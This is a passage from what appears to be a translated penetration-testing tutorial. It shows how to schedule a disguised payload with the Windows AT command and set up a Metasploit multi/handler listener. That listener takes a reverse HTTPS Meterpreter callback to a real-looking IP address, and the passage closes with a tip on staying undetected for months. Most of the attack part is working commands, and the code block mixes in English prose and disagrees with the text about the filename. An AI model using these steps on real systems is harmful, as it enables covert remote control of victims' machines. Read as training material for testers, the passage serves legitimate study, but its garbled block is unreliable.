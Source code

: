 与 Ncat 一样，我们将进入受害者机器并设置`AT`命令以运行`svchost13.exe`：

```
shell
AT 5:25PM c:\windows\svchost.exe
exit
Just before 5:25 PM, log into the evil server //rogue3\. Fire up the Metasploit service msfconsole to get your listener set up and running to accept the connection. Then, set up the common handler module using the following commands.
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 128.199.190.69
set LPORT 443
exploit

```

运行该漏洞攻击后，处理程序将开始监听端口`443`上的连接，等待无助的受害者呼叫总部。等了一会儿，我们看到一个连接从`69.131.155.226`出现。这是我们的受害者机器后面的防火墙地址。然后，处理程序向系统提供一个命令提示符。运行 meterpeter 命令`sysinfo`，我们可以看到名称和机器信息。从这里你可以完全控制。

### 提示

真正的攻击者可能会利用此漏洞进行攻击，并且在数月内不会回来。问题的唯一迹象就是每天下午 5:25 一个连接断开并出现故障。只是网络上的一个小插曲。

![Phoning Home with Metasploit](img/image00935.jpeg)
